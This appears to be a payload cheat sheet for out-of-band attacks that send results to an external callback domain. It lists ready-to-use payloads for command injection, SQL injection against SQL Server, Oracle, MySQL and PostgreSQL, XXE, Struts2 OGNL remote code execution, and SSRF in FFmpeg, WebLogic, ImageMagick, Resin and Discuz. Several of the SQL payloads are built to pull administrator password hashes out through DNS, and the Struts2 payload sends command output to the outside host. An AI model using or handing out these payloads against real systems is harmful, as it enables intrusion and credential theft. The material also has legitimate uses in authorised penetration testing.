 ## Command Execution
### i. *nix:

	curl http://ip.port.b182oj.ceye.io/`whoami`
	ping `whoami`.ip.port.b182oj.ceye.io

### ii. windows

	ping %USERNAME%.b182oj.ceye.io

## 0x01 SQL Injection

### i. SQL Server

	DECLARE @host varchar(1024);
	SELECT @host=(SELECT TOP 1
	master.dbo.fn_varbintohexstr(password_hash)
	FROM sys.sql_logins WHERE name='sa')
	+'.ip.port.b182oj.ceye.io';
	EXEC('master..xp_dirtree
	"\\'+@host+'\foobar$"');

### ii. Oracle

	SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
	SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
	SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
	SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
	SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;

### iii. MySQL

	SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));

### iv. PostgreSQL

	DROP TABLE IF EXISTS table_output;
	CREATE TABLE table_output(content text);
	CREATE OR REPLACE FUNCTION temp_function()
	RETURNS VOID AS $
	DECLARE exec_cmd TEXT;
	DECLARE query_result TEXT;
	BEGIN
	SELECT INTO query_result (SELECT passwd
	FROM pg_shadow WHERE usename='postgres');
	exec_cmd := E'COPY table_output(content)
	FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
	EXECUTE exec_cmd;
	END;
	$ LANGUAGE plpgsql SECURITY DEFINER;
	SELECT temp_function();
	0x02 XML Entity Injection
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [
	<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
	%remote;]>
	<root/>

## Others

### i. Struts2

	xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}
	xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

### ii. FFMpeg

	#EXTM3U
	#EXT-X-MEDIA-SEQUENCE:0
	#EXTINF:10.0,
	concat:http://ip.port.b182oj.ceye.io
	#EXT-X-ENDLIST

### iii. Weblogic

	 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
	
### iv. ImageMagick

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(http://ip.port.b182oj.ceye.io)'
	pop graphic-context

### v. Resin

	xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf

### vi. Discuz

	http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo